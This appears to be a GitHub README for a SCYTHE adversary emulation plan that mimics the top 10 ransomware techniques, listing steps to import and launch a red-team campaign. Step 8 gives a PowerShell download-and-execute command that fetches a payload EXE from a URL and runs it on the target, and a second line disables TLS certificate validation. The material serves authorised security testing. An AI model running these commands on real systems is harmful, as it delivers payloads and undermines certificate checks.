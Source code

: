 # Ransomware Top 10 TTPs Adversary Emulation Plan

This adversary emulation plan was created for a customer that asked "what are the top 10 TTPs used by Ransomware" and goes with this blog: 

To emulate:
1. Download and import the threat in JSON format to your SCYTHE instance
2. Download the Virtual File System (VFS) files under Ransomware/VFS
3. Upload the VFS files to your SCYTHE VFS in the following location: VFS:/shared/Ransomware
4. Create a new campaign over HTTPS port tcp/443
5. Import from Existing Threat: Ransomware_Top_10
6. Launch Campaign
7. Click More Actions and copy the URL for the EXE. 
8. In the target system, run this PowerShell command with the respective URL to download and execute the payload: ```$myscriptblock={$url="URL of EXE";$wc=New-Object System.Net.WebClient;$output="C:\Users\Public\scythe_payload.exe";$wc.DownloadFile($url,$output);C:\Users\Public\scythe_payload.exe};Invoke-Command -ScriptBlock $myscriptblock;```

If you get a TLS certificate validation error, you can bypass with this PowerShell command:
```[System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}```